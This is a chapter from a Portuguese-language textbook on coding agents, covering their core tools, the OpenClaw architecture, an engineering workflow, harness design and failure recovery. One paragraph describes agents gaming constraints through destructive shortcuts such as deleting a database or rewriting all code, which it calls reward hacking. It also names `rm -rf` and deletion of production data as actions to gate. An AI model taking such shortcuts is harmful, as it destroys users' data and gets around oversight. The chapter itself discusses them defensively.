# Agente de programação e geração de código

Os capítulos anteriores examinaram em profundidade a engenharia de contexto (Capítulos 2 e 3) e o design de ferramentas (Capítulo 4). Este capítulo reúne esses componentes para responder a uma pergunta central: **Como é a arquitetura de um agente de propósito geral capaz de lidar com tarefas arbitrárias?**

A resposta é: **um agente de propósito geral voltado a tarefas abertas** tem como núcleo um **agente de programação** (um agente capaz de escrever, modificar e executar código de forma autônoma) e um **sistema de arquivos** — o espaço de trabalho no qual o agente armazena código, dados, memória e resultados intermediários, assim como um programador gerencia projetos em pastas no computador. Do Manus ao OpenClaw, todos os agentes de propósito geral bem-sucedidos voltados a tarefas abertas seguem esse paradigma.

Por que a geração de código pode assumir esse papel? Porque não é apenas uma ferramenta, mas uma **metacapacidade** — a capacidade de criar dinamicamente novas ferramentas e funcionalidades durante a execução. A segunda metade deste capítulo desenvolve esse conceito por completo e apresenta suas seis frentes de aplicação.

O código serve ao agente em dois níveis. Como meio de **pensamento**, ele impõe rigor — “idade superior a 18 anos e identidade verificada” pode admitir várias interpretações em linguagem natural, mas, quando expresso em código, torna-se inequívoco. Como meio de **expressão**, um código executável constitui por si só uma prova de coerência lógica, e o resultado de sua execução oferece um critério objetivo de correção.

Este capítulo começa pelas funcionalidades básicas de um agente de programação e pela arquitetura de um agente de propósito geral (OpenClaw). Em seguida, demonstra aplicações da geração de código em diversos cenários — do raciocínio matemático e da criação de conteúdo às metacapacidades no nível do sistema.

## Agente de programação

### Programação como capacidade fundamental do agente

**A geração de código não é exclusividade de alguns agentes especializados, mas uma capacidade fundamental que todo agente de propósito geral deve ter.** Com os modelos SOTA atuais, dotar um agente de recursos básicos de programação não exige uma arquitetura complexa.

Considere uma tarefa típica: “Organize todos os comentários TODO restantes no repositório, classifique-os por prioridade e crie issues”. Para realizá-la, é necessário explorar a estrutura de diretórios (ls/glob), ler código (read), modificar arquivos (edit/write), executar comandos (bash) e buscar padrões (grep/search). Essas cinco categorias de operações abrangem quase todas as ações centrais de um agente de programação e dão origem às sete ferramentas apresentadas a seguir. A rigor, as cinco categorias correspondem naturalmente a seis ferramentas; a sétima, o Code Interpreter, abrange operações de “executar código/calcular” e, em algumas implementações, é simplesmente incorporada ao Bash. As sete ferramentas formam um conjunto de referência normalizado, e não um mapeamento estrito de um para um com as cinco categorias.

Um agente de programação básico precisa apenas das sete ferramentas centrais a seguir:

1. **Code Interpreter**: oferece uma sandbox isolada (um ambiente seguro de execução separado do sistema host), na qual o código Python pode ser executado com segurança, sem que erros afetem o host
2. **Bash Shell**: executa comandos em um terminal, como rodar casos de teste ou processar arquivos em formatos especiais
3. **Ferramenta de leitura de arquivos**: lê código, configurações, documentação, logs etc.
4. **Ferramenta de gravação de arquivos**: cria novos arquivos ou sobrescreve por completo arquivos existentes
5. **Ferramenta de edição de arquivos**: faz alterações localizadas em arquivos existentes, uma operação central para manutenção e iteração de código
6. **Ferramenta de busca por nome de arquivo (Glob)**: localiza rapidamente arquivos no sistema de arquivos por correspondência de padrões; por exemplo, usa `**/*.py` para encontrar todos os arquivos Python de um projeto
7. **Ferramenta de busca no conteúdo de arquivos (Grep)**: procura padrões de texto específicos no conteúdo dos arquivos; por exemplo, encontra todas as linhas de código que chamam determinada função

Essas sete ferramentas constituem um conjunto completo e, ao mesmo tempo, mínimo, que praticamente qualquer sistema de agentes pode integrar a baixo custo.

Observe que esse conjunto é a configuração básica específica de um agente de programação e difere das cinco categorias gerais de ferramentas do Capítulo 4, divididas conforme a direção da chamada e a natureza de seu efeito (percepção/execução/colaboração/acionamento por eventos/comunicação com o usuário). Nessa taxonomia, Read, Write, Edit, Grep, Glob, Bash e o interpretador de código são ferramentas de execução ou percepção; a colaboração do agente de programação com subagentes é tratada pela lógica de orquestração do framework, e não por ferramentas específicas de colaboração.

Para entender como as sete ferramentas funcionam em conjunto, considere uma tarefa simples. Suponha que o usuário diga: “Ajude-me a compilar uma lista de todos os comentários TODO do projeto”:

```text
Agent (thinking): Need to find all code lines containing TODO.
Agent → Grep("TODO", glob="**/*.py")          # Search file content
Tool returns:
  src/api.py:42: # TODO: add rate limiting
  src/db.py:15:  # TODO: migrate to PostgreSQL
  tests/test_api.py:8: # TODO: add edge case tests

Agent (thinking): Found 3 TODOs, compile them into a list and write to a file.
Agent → Write("TODO_LIST.md", content="...")   # Write file
Tool returns: File created

Agent: Done. Found 3 TODO items, the list is saved in TODO_LIST.md.
```

Todo o processo usou apenas duas ferramentas: Grep (busca em conteúdo) e Write (gravação de arquivo). Se a tarefa fosse mais complexa — como “conte o número de TODOs por módulo e crie um gráfico de barras” —, o agente também usaria o Code Interpreter para executar código Python e realizar os cálculos e a plotagem. Isoladamente, as sete ferramentas são simples; combinadas, abrangem uma variedade notável de tarefas.

O leitor talvez se pergunte: por que sete ferramentas, e não seis? Na verdade, uma única ferramenta Bash seria suficiente — o OpenAI Codex fornece apenas o Bash Shell e realiza por meio dele todas as operações de leitura, gravação e busca em arquivos. Ainda assim, outros agentes mantêm ferramentas específicas para leitura e gravação de arquivos. Neste livro, as sete ferramentas são apresentadas separadamente para facilitar a compreensão das capacidades básicas necessárias a um agente de programação.

Por que todo agente de propósito geral deve ter recursos de programação? Porque gerar código não se resume a escrever programas — é uma forma geral de resolver problemas. Diante de um problema matemático, o agente pode escrever código e entregá-lo a um solucionador para obter uma resposta exata; diante de uma regra de negócio que precisa ser formalizada, o código é muito mais preciso do que qualquer descrição em linguagem natural; se faltar uma ferramenta, ele pode criá-la na hora; quando um formato de dados mudar, pode gerar uma nova lógica de análise. As seções seguintes abordam cada um desses cenários. Um agente com recursos básicos de programação — mesmo que disponha apenas das sete ferramentas simples descritas acima — pode ampliar suas capacidades sempre que surgir uma nova necessidade.

### Estudo de caso: do Manus ao OpenClaw — o núcleo de programação dos agentes de propósito geral

Produtos de agentes de propósito geral como Manus e OpenClaw combinam três recursos principais — Deep Research, Computer Use e programação — em um único sistema. Então, por que o início deste capítulo afirma que o agente de programação é o núcleo, e não uma das outras duas capacidades?

Porque quase toda geração eficiente de conteúdo acaba se materializando em código. Apresentações do PowerPoint e documentos do Word são, em essência, código no formato OOXML (Office Open XML, o padrão aberto da Microsoft para documentos de escritório). Relatórios em PDF podem ser gerados por meio de Markdown, HTML ou LaTeX; scripts Python podem realizar análises e visualizações de dados; até mesmo sequências bem-sucedidas de operações no navegador executadas por uma GUI podem ser convertidas em código reutilizável (consulte o Capítulo 9). A busca e a síntese de informações do Deep Research podem ser implementadas por meio de requisições web e análise de conteúdo controladas por código. O Computer Use é mais versátil, mas, para operações equivalentes, chamadas diretas de código ou APIs costumam ser mais baratas, rápidas e confiáveis. A geração de código é a base de capacidades mais eficiente, econômica e reutilizável.



Para entender essa arquitetura, considere um fluxo de execução concreto. Suponha que o usuário peça: “Ajude-me a analisar os dados de vendas do último trimestre e criar um relatório resumido”.

1. **Ler a memória**: o agente lê `MEMORY.md` e descobre que o usuário prefere relatórios em PDF e que a fonte dos dados é o Google Sheets
2. **Chamar ferramentas**: obtém instruções de uso da API do Google Sheets por meio do módulo de busca na web e baixa os dados por meio da execução de código
3. **Escrever código**: gera um script de análise de dados em Python (agregação com pandas e visualização com matplotlib)
4. **Gerar artefatos**: grava os resultados da análise em `report.pdf` e os gráficos no diretório `charts/`
5. **Atualizar a memória**: registra em `MEMORY.md` que “Os dados de vendas do usuário estão no Google Sheets, ID: xxx”, para não precisar perguntar novamente na próxima vez

Ao longo de todo o processo, o sistema de arquivos é o ponto central do fluxo de informações — a memória é lida de arquivos, os artefatos são gravados em arquivos e a experiência também é salva em arquivos.

**O sistema de arquivos como núcleo do agente.** No design do OpenClaw, o sistema de arquivos é muito mais do que um repositório de dados — ele é o núcleo da memória, do conhecimento e das capacidades do agente. A memória de longo prazo do agente é armazenada em `MEMORY.md` (fatos de alto nível e preferências do usuário) e em logs Markdown arquivados por data. A escolha de Markdown em vez de um banco de dados vetorial pode parecer contraintuitiva, mas é extremamente eficaz: os usuários podem abrir diretamente os arquivos para ler e modificar a memória do agente (se o agente registrar algo incorretamente, basta excluir a linha), o Markdown preserva naturalmente a ordem cronológica, evitando confusões temporais na recuperação semântica, e permite controle de versão e reversão por meio do Git.

Mais importante: como o agente pode gravar arquivos, ele dispõe dos meios técnicos para modificar seus próprios artefatos externos. Quando executa uma tarefa pela primeira vez e descobre uma informação relevante que ainda não conhecia — por exemplo, ao telefonar para determinado banco, descobre que o endereço da agência é necessário para verificar a identidade —, pode primeiro registrar essa descoberta em um arquivo. Determinar quando esse registro é suficiente para se tornar conhecimento confiável, uma instrução ou um programa ainda exige trajetórias adicionais e validação dos resultados. Esse é o problema da evolução contínua discutido no Capítulo 9.

**Limites de aplicabilidade: quais agentes têm a programação como núcleo arquitetural.** A conclusão de que “o agente de programação é o núcleo de um agente de propósito geral” aplica-se principalmente a **agentes de propósito geral voltados a tarefas abertas** — cenários como pesquisa aprofundada, geração de conteúdo e processamento de dados, nos quais os limites das tarefas são incertos e os artefatos podem assumir diversas formas. Nesses cenários, é impossível enumerar antecipadamente todas as ferramentas necessárias; como metacapacidade, a geração de código oferece o caminho mais econômico para ampliar dinamicamente os limites das capacidades e, por isso, constitui o núcleo da arquitetura. Em contrapartida, agentes de atendimento ao cliente em domínios verticais operam em espaços de tarefas relativamente fechados, com arquiteturas centrais estruturadas em torno de processos de negócio fixos, ferramentas de domínio e estratégias de diálogo; nesses casos, o código é uma ferramenta do conjunto, não o núcleo arquitetural. Ainda assim, a programação é uma capacidade fundamental importante: cálculos precisos, processamento de dados e validação de regras dependem dela.

### Fluxo geral de um agente de programação



**Documentação do projeto.**

O trabalho de um agente de programação começa pela compreensão sistemática do projeto. Quando um agente entra em contato com um repositório de código pela primeira vez, sua primeira tarefa não é começar a modificar o código, mas construir um panorama mental de todo o projeto — assim como um engenheiro recém-contratado não envia código no primeiro dia, mas começa se familiarizando com a estrutura do projeto. Primeiro, o agente verifica se o projeto possui documentação, como um README, documentos de arquitetura e guias para desenvolvedores.

Se faltarem documentos essenciais, o agente não deve começar a trabalhar às cegas. Ele deve examinar sistematicamente a base de código, identificar os principais módulos, as abstrações centrais e as dependências entre os componentes, além de elaborar uma visão geral da arquitetura, um guia de diretórios e instruções para executar os testes. Esses documentos servem tanto de roteiro para o trabalho posterior do agente quanto de ponto de partida para outros desenvolvedores. Isso expressa um princípio fundamental: explicitar o conhecimento é um pré-requisito para uma colaboração eficiente.

A documentação de projetos agora conta com uma forma específica para agentes: os **arquivos de instruções do projeto**. Arquivos como CLAUDE.md, AGENTS.md e .cursorrules tornaram-se padrões de fato no setor — eles são inseridos automaticamente no contexto no início de cada sessão e funcionam como prompts de sistema no nível do projeto. Ao contrário dos READMEs destinados a leitores humanos, os arquivos de instruções definem convenções de comportamento para os agentes: comandos de compilação e teste (“use `pnpm test` em vez de `npm test`”), estilo de código (“não use o tipo `any`”) e áreas claramente restritas (“não altere o diretório `migrations/`”). É a mesma ideia aplicada em níveis diferentes nos arquivos `SOUL.md` do OpenClaw, que define a identidade e as regras de comportamento do agente, e `MEMORY.md`, que acumula experiências entre sessões: SOUL.md estabelece “quem é o agente”, enquanto os arquivos de instruções do projeto estabelecem “como trabalhar neste projeto”. Sob a perspectiva da engenharia de contexto apresentada no Capítulo 2, esses arquivos também constituem o prefixo estável mais econômico: seu conteúdo não varia de acordo com a tarefa, o que os torna naturalmente favoráveis ao cache KV. Além disso, são a aplicação mais direta do princípio de que “o conhecimento deve existir na própria base de código”.

É justamente assim que a afirmação do Capítulo 2 — “uma equipe favorável ao trabalho remoto geralmente também é favorável aos agentes de IA” — se concretiza no repositório de código: as decisões precisam estar registradas em documentos, o contexto precisa constar nas descrições de issues e PRs, e a experiência interna precisa estar consolidada em guias para desenvolvedores para que o agente consiga acessá-la. Disso decorre um indicador simples do grau de preparo de uma equipe para a IA: **um novo integrante remoto consegue começar a trabalhar de forma independente usando apenas o repositório e a documentação?**

**Compreensão da tarefa e esclarecimento dos requisitos.**

No caso de requisitos simples, com limites claros e impacto restrito — como corrigir um bug conhecido ou ajustar os parâmetros de uma função —, o agente pode seguir diretamente para a fase de implementação. No entanto, a maioria das tarefas de desenvolvimento de software não é tão simples.

Diante de requisitos complexos, o agente deve agir com mais cautela e método. A complexidade pode surgir de várias dimensões: a ambiguidade do próprio requisito — o usuário sabe o que deseja, mas não consegue expressá-lo com precisão —, a diversidade de caminhos de implementação — há várias soluções técnicas possíveis, cada uma com suas vantagens e desvantagens — ou a amplitude do impacto — é preciso modificar vários módulos, com o risco de comprometer funcionalidades existentes. O agente deve esclarecer os limites por meio de uma investigação exploratória e dialogar proativamente com o usuário quando necessário. Por exemplo, quando um usuário pede para “otimizar o desempenho do sistema”, primeiro o agente precisa determinar o objetivo específico — reduzir o tempo de resposta, diminuir o uso de memória ou aumentar a vazão —, quais concessões são aceitáveis — por exemplo, se é permitido aumentar a complexidade do código — e onde está o gargalo atual. Começar a programar enquanto os requisitos ainda estão vagos costuma gerar muito retrabalho.

**Elaboração de um documento de design.**

O documento de design é a ponte que transforma requisitos abstratos em um plano concreto de implementação. Ele deve responder a quatro perguntas centrais: quais módulos devem ser modificados e por quê; qual abordagem deve ser adotada e quais são suas vantagens e desvantagens; quais novas dependências serão necessárias; e qual será o impacto esperado das alterações no sistema. A própria elaboração do documento exige reflexão profunda: ela obriga o agente a validar conceitualmente a viabilidade da solução antes de investir muito esforço na programação. Mais importante ainda, o documento de design oferece um ponto eficiente para a intervenção humana — revisar um documento conciso é muito mais fácil do que revisar centenas de linhas de código. Depois de concluí-lo, o agente deve submetê-lo à revisão do usuário e aguardar sua aprovação antes de prosseguir.

**Implementação e teste do código.**

Após obter a aprovação do design, o agente implementa a solução de acordo com as convenções de código do projeto, reutiliza abstrações e ferramentas existentes e realiza refatorações moderadas quando necessário para preservar a qualidade da base de código.

Após a implementação, o agente entra imediatamente em uma etapa de garantia da qualidade orientada por testes: cria casos de teste para as funcionalidades novas ou modificadas, cobrindo fluxos normais, condições de contorno e situações de erro. Depois, executa a suíte de testes. Se houver falhas, o agente não deve apenas comunicá-las ao usuário, mas analisar a causa, localizar o problema e modificar o código até que todos os testes passem. Esse ciclo de “testar e corrigir” pode exigir várias iterações, e é justamente essa capacidade de autocorreção que transforma um agente de programação, antes mero gerador de código, em um assistente de engenharia confiável. Em contrapartida, a forma mais comum de um agente de programação trabalhar de maneira negligente é pular totalmente essa etapa: escrever o código e informar que a “tarefa foi concluída” sem sequer executar os testes. Definir “os testes passaram”, e não “o código foi escrito”, como critério de conclusão é a aplicação ao desenvolvimento de software do princípio da engenharia de loops segundo o qual a verificação determina quando é seguro parar.

Mesmo que todos os testes passem, o trabalho do agente ainda não terminou. A etapa seguinte é a revisão do código: o agente examina de forma crítica o código que produziu. Ele é legível e contém comentários suficientes? Há possíveis problemas de desempenho ou vulnerabilidades de segurança? O código segue o estilo e as práticas recomendadas do projeto? Essa autorrevisão pode ser realizada pela leitura do código, pela execução de ferramentas de lint ou pela chamada de um subagente especializado em revisão de código. Se a revisão identificar problemas, o agente deve voltar à etapa de modificação e corrigi-los, em vez de entregar código com defeitos ao usuário.

**Sincronização da documentação e entrega.**

Se as alterações no código envolverem mudanças arquitetônicas — como a introdução de um novo módulo, a alteração das dependências entre módulos ou a mudança da semântica de abstrações centrais —, o agente deverá atualizar a documentação da arquitetura. Uma documentação desatualizada é pior do que a ausência de documentação, pois induz futuros desenvolvedores ao erro. Ao atualizar automaticamente a documentação após cada mudança significativa, o agente ajuda a preservar a integridade e a atualidade da base de conhecimento do projeto.

Esse fluxo de trabalho incorpora os princípios fundamentais da engenharia de software: o planejamento precede a ação, a verificação permeia todo o processo, e a documentação evolui junto com o código.

É importante observar que o processo descrito acima é um **fluxo de trabalho de engenharia recomendado**. Na prática, agentes de programação como Claude Code e Codex o adaptam conforme a necessidade: uma tarefa simples de correção de bug dispensa a elaboração de um documento de design, enquanto apenas tarefas complexas e de amplo impacto percorrem todas as etapas.

Modelos diferentes adaptam esse fluxo de trabalho de maneiras distintas. Alguns modelos de programação examinam amplamente a estrutura do repositório, a implementação, os pontos de chamada e os testes antes da primeira alteração. Outros inspecionam apenas os poucos arquivos com maior probabilidade de serem relevantes, criam logo um patch e tratam o feedback do compilador e dos testes como parte da investigação. Esse limiar entre parar de coletar informações e começar a agir pode permanecer associado ao modelo mesmo após uma mudança de harness, assim como pode mudar quando o modelo é substituído dentro do mesmo harness. Portanto, trata-se, antes de tudo, de um **comportamento aprendido pelo modelo**, e não apenas do estilo de interface de um produto de programação. Os prompts, as ferramentas e os limites de recursos do harness ainda podem amplificá-lo ou inibi-lo, mas não precisam ser sua origem. O Capítulo 7 mede essa diferença em um harness fixo; em seguida, o Capítulo 8 explica como o pós-treinamento pode incorporar essa política aos parâmetros.

### Engenharia de harness na prática para agentes de programação

O Capítulo 1 apresentou o conceito de engenharia de harness e a fórmula **Agente = Modelo + Harness**. Nesse caso, o harness inclui o contexto e as ferramentas da fórmula principal, além dos mecanismos de restrição, verificação e correção — esses cinco elementos constituem, em conjunto, o harness definido no Capítulo 1. Os agentes de programação talvez sejam o domínio que mais se beneficia da engenharia de harness: a escrita de código está entre as tarefas de agentes com **maior grau de verificabilidade**, e suas restrições, verificações e correções podem se apoiar em uma infraestrutura já existente. Esta seção se concentra nas práticas concretas aplicáveis a agentes de programação.

A estabilidade de um sistema costuma depender menos da capacidade do modelo e mais da solidez da infraestrutura construída ao redor do agente. O Capítulo 1 divide o harness em duas camadas: **contexto e ferramentas** (que permitem ao agente executar tarefas) e **restrições, verificação e correção** (que evitam ações incorretas). No caso dos agentes de programação, essas camadas se traduzem em componentes específicos de engenharia:

- **Critérios de aceitação**: o que caracteriza uma tarefa concluída — suítes de testes, pipeline de CI (integração contínua, uma série de verificações executadas automaticamente após o envio do código) e padrões de revisão de código
- **Limites de execução**: o que o agente pode ou não alterar — limites entre módulos, regras de dependência e controles de permissão
- **Sinais de feedback**: avaliações automatizadas de correção — saída do linter (ferramenta de verificação de padrões de código que detecta automaticamente erros de formatação e possíveis problemas), resultados de testes e erros de verificação de tipos
- **Mecanismos de reversão**: como se recuperar quando algo dá errado — controle de versão com Git, isolamento em sandbox e restauração de snapshots

**Por que os agentes de programação são particularmente adequados à engenharia de harness.**

Duas dimensões — a clareza do objetivo e o grau de automação da verificação — permitem dividir as tarefas em quatro estados. Um objetivo claro, com resultados verificáveis de forma automática, é o cenário em que os agentes têm melhor desempenho. Quando o objetivo é claro, mas a aceitação ainda depende de supervisão humana, a vazão fica limitada à velocidade da revisão. Quando há feedback automatizado, mas o objetivo é vago, o sistema avança com eficiência na direção errada. Sem nenhum desses dois elementos, o agente tem pouca utilidade. A Tabela 5-1 apresenta esses quatro estados. O objetivo do harness é levar o maior número possível de tarefas ao quadrante “objetivo claro + verificação automatizada”.

Tabela 5-1 — Quatro quadrantes de clareza da tarefa e automação da verificação

| | Resultados verificáveis automaticamente | Resultados que exigem verificação humana |
|---------|--------------------------------------------|------------------------------------------|
| **Objetivo claro** | Cenário ideal: corrigir bugs que têm casos de teste | Vazão limitada: a refatoração de código exige revisão humana |
| **Objetivo vago** | Desvio eficiente: otimizar a “qualidade do código” com um linter | Difícil de iniciar: “deixe a interface mais bonita” |

As tarefas de programação ocupam naturalmente o quadrante “objetivo claro + verificação automatizada”: suítes de testes fornecem critérios de aceitação claros, linters e verificadores de tipos oferecem validação automática imediata, e o Git proporciona recursos completos de controle de versão e reversão. Isso explica por que os agentes de programação são hoje os mais maduros entre todos os tipos de agentes: não porque os modelos de geração de código sejam particularmente poderosos, mas porque décadas de infraestrutura de engenharia de software constituem naturalmente um harness robusto.

**Práticas do setor.**

Três estudos de caso sobre o uso de harness confirmam os princípios apresentados:

- **Caso de migração de código em larga escala** (baseado em uma prática divulgada publicamente por uma grande empresa de tecnologia): o fator decisivo não foi a capacidade do modelo, mas o fato de o harness acertar em três aspectos — o conhecimento precisa estar presente no próprio repositório de código (o que o agente não consegue ver equivale a não existir), as restrições devem ser incorporadas a linters e à CI, em vez de apenas documentadas, e a verificação e a correção devem ser totalmente automatizadas de ponta a ponta.
- **LangChain**: melhorou significativamente o desempenho em tarefas de benchmark apenas com a otimização do harness — prompts de sistema, middleware de ferramentas e ciclos de autoverificação. Merece destaque a metodologia de “usar um agente para analisar trajetórias de falha e aprimorar o harness”, que transforma a engenharia de harness de uma prática orientada pela experiência em uma abordagem orientada por dados.
- **Anthropic**: divide tarefas longas entre dois papéis — um agente de inicialização, responsável por decompor uma tarefa extensa em uma lista de tarefas, e um agente de execução, responsável por avançar passo a passo e deixar os resultados intermediários, como arquivos de código concluídos e listas de tarefas atualizadas, para uso na rodada seguinte. Essa divisão de trabalho resolve os problemas dos agentes de longa duração que “tentam fazer coisas demais de uma só vez” ou “declaram a conclusão prematuramente”.

**Dos agentes de programação aos princípios gerais de projeto de harness.**

As práticas de harness dos agentes de programação oferecem princípios de projeto aplicáveis a todos os sistemas agênticos:

1. **Restrições acima de orientações**: regras que podem ser impostas por código devem ser implementadas dessa forma, não apenas sugeridas na documentação. Regras de linter, restrições de tipos e verificações de CI têm muito mais valor do que orientações como “siga estas instruções...” em prompts de sistema — as primeiras significam “não é possível fazer”, enquanto as últimas apenas “recomendam não fazer”.
2. **Automatize a verificação**: a revisão humana é um gargalo que não acompanha o crescimento da escala. Investir em suítes de testes, verificações da qualidade do código e monitoramento de comportamento oferece retorno muito maior do que aumentar a mão de obra.
3. **O feedback deve ser o mais rápido e estruturado possível**: quanto mais detalhada for a mensagem de erro e quanto mais próxima estiver do momento em que o erro ocorreu, maior será a eficiência do agente ao se corrigir. As técnicas da barra de status do agente apresentadas no Capítulo 2 — mensagens de erro detalhadas e contadores de chamadas de ferramentas — concretizam esse princípio.
4. **A reversão deve ser confiável**: os agentes só podem experimentar com confiança quando operam dentro de uma rede de proteção. Branches do Git, ambientes sandbox e mecanismos de snapshot garantem que qualquer erro seja reversível.

**Um propósito mais profundo das restrições: evitar erros de processo.** Os critérios de aceitação determinam se o resultado está correto; os limites de execução controlam o **processo** — mesmo um resultado correto não justifica um método inadequado. Excluir e recriar um banco de dados para “corrigir” uma falha pode resolver o problema, mas os dados são perdidos. Excluir todo o código e reescrevê-lo para corrigir um erro de compilação pode fazer a compilação passar, mas elimina a implementação. Esses atalhos destrutivos sempre existem: mesmo quando as restrições são incluídas nas métricas de avaliação final, os agentes costumam encontrar formas de contorná-las — essa é a manifestação cotidiana do reward hacking, abordado no Capítulo 8, em tarefas de agentes. Por isso, um harness para produção deve aplicar verificações e aprovações específicas a ações perigosas, como `rm -rf`, exclusão de dados de produção ou sobrescrita de um arquivo que ainda não foi lido — por meio da análise semântica apresentada na seção de segurança deste capítulo e da revisão com Sidecar descrita no Capítulo 4. O objetivo é restringir **ações**, e não apenas resultados. O RLVP do Capítulo 8 (Reinforcement Learning with Verified Penalty — “recompensar o resultado, penalizar o caminho”) responde à mesma questão pela perspectiva do treinamento: além da recompensa pelo resultado final, penaliza violações verificáveis cometidas durante o processo, incorporando a regra de “não recorrer a meios destrutivos” ao senso comum de engenharia do modelo. Para um modelo já existente, os guardrails do harness funcionam como restrições externas; para um modelo que pode ser treinado, as penalidades de processo internalizam essas restrições. O objetivo é o mesmo.

**Orquestração de ferramentas: controle dos limites de falha.** Agentes de programação maduros oferecem suporte a chamadas paralelas de ferramentas. Da perspectiva do harness, o problema específico é **como as falhas se propagam**: quando uma ferramenta falha, quais chamadas devem ser interrompidas e quais devem continuar? O princípio é que as falhas só devem se propagar dentro do mesmo lote de chamadas paralelas, sem atingir a operação-pai. Ao ler três arquivos em paralelo, por exemplo, se um deles não for encontrado, apenas essa chamada deve falhar; as outras duas não devem ser canceladas, muito menos a tarefa inteira. Esse controle granular dos limites de falha evita o padrão frágil em que “a falha de um comando interrompe toda a tarefa”. Os mecanismos específicos de chamadas paralelas, análise em streaming e interrupções em cascata são detalhados na seção “Dicas de implementação” deste capítulo.

### Recuperação de falhas e erros

A seção anterior apresentou os princípios e componentes da engenharia de harness; esta seção se aprofunda no aspecto que mais diferencia a maturidade da engenharia: a **recuperação de falhas e erros**. O experimento de ablação do Capítulo 1 mostrou a gravidade do problema: basta faltar um único feedback de resultado de ferramenta para que um agente fique preso em um loop infinito — e os ambientes reais de produção apresentam falhas muito mais variadas do que qualquer experimento. Esta seção responde sistematicamente a três perguntas: que falhas um harness de produção encontra? Como detectá-las e se recuperar delas? E quando o sistema precisa encerrar a execução?[^ch5-3]

[^ch5-3]: A taxonomia de falhas e a análise de mecanismos desta seção se baseiam no estudo do código-fonte de implementações de agentes de produção, como o Claude Code. As implementações específicas evoluem rapidamente entre versões; esta seção apresenta apenas os princípios de engenharia mais estáveis.

**Taxonomia de falhas: quatro camadas.** O primeiro passo para uma resposta sistemática é classificar as falhas. De acordo com o local em que ocorrem, elas se dividem em quatro camadas:

- **Camada de API**: limitação de taxa (HTTP 429), sobrecarga do serviço, timeout de requisições, interrupção da conexão e saída truncada ao atingir o limite de tokens. Essas falhas não têm relação com a tarefa em si; são ruídos da infraestrutura.
- **Camada de ferramentas**: chamadas alucinadas (invocação de uma ferramenta inexistente), argumentos malformados (que violam as restrições de entrada da ferramenta), exceções de execução e o tipo mais perigoso: a ferramenta retorna repetidamente o mesmo erro, enquanto o modelo repete a tentativa sem nenhuma alteração.
- **Camada de contexto**: estouro da janela de contexto, falha de compactação e corrupção da estrutura da trajetória, como uma chamada de ferramenta sem a mensagem de resultado correspondente.
- **Camada de fluxo de controle**: loops infinitos (repetição da mesma operação sem nenhum progresso) e espirais de falha (a lógica de recuperação acionada por um erro chama o próprio LLM, falha novamente e desencadeia uma reação em cadeia).

**Detecção: primeiro classifique, depois conte.** Quando ocorre uma falha, a primeira pergunta não deve ser “Devemos tentar novamente?”, mas “Uma nova tentativa ajudaria?”. Erros recuperáveis por nova tentativa — como limitação de taxa, sobrecarga e instabilidade de rede — justificam novas tentativas. Já erros não recuperáveis dessa forma — como argumentos inválidos, permissões insuficientes e ferramenta inexistente — produzirão o mesmo resultado, não importa quantas vezes a tentativa seja repetida sem alterações; é necessário mudar a entrada ou a estratégia. Um harness de produção mantém um mapeamento entre tipos de erro e estratégias de recuperação, em vez de simplesmente “tentar novamente em caso de erro”.

Além dos erros individuais, é preciso detectar **padrões**. O primeiro é a impressão digital de chamadas repetidas: calcula-se uma impressão digital do par “nome da ferramenta + argumentos”; a recorrência da mesma impressão digital é um sinal inequívoco de um loop sem progresso. No experimento de ablação do Capítulo 1, o agente chamando repetidamente a mesma ferramenta apresentava exatamente esse padrão. O segundo são os contadores de falhas consecutivas: cada caminho de recuperação mantém seu próprio contador, que servirá de base para os circuit breakers discutidos adiante.

